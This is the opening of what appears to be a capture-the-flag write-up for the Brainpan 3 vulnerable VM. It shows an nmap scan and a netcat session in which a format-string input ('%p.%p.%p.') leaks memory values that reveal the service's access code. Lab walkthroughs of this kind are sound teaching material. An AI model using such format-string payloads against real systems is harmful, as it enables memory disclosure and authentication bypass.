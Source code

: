 This is a writeup for a vulnerable virtual machine created by superkojiman ([here](https://www.vulnhub.com/entry/brainpan-3,121/)). Tempted by the promise of my very own Brainpan sticker ([here](http://blog.techorganic.com/2015/07/27/brainpan-3-hacking-challenge/)), and armed with some free hours to spare, I dove right into it.

#1. Recon

Nmap the VM:

>```
>$ nmap -sT -Pn 192.168.1.118 -p-
>```

Result:

>```
>Starting Nmap 6.40 ( http://nmap.org ) at 2015-08-13 16:40 CEST
>Nmap scan report for 192.168.1.118
>Host is up (0.0022s latency).
>PORT     STATE  SERVICE
>1337/tcp open   waste
>8080/tcp closed http-proxy
>```

# 2. Perimeter

After some tries I found there is a format string vulnerability in the access code; sending it "%p.%p.%p." causes it to display values in memory, the access code is in the third position.

>```bash
>$ nc 192.168.1.118 1337
>```

>```
>
>
>  __ )    _ \      \    _ _|   \  |   _ \    \      \  |     _ _| _ _| _ _|
>  __ \   |   |    _ \     |     \ |  |   |  _ \      \ |       |    |    | 
>  |   |  __ <    ___ \    |   |\  |  ___/  ___ \   |\  |       |    |    | 
> ____/  _| \_\ _/    _\ ___| _| \_| _|   _/    _\ _| \_|     ___| ___| ___|
>
>                                                            by superkojiman
>
>
>
>
>AUTHORIZED PERSONNEL ONLY
>PLEASE ENTER THE 4-DIGIT CODE SHOWN ON YOUR ACCESS TOKEN
>A NEW CODE WILL BE GENERATED AFTER THREE INCORRECT ATTEMPTS
>
>ACCESS CODE: %p.%p.%p.     
>ERROR #1: INVALID ACCESS CODE: 0xbfa4b23c.(nil).0x2160.
>```
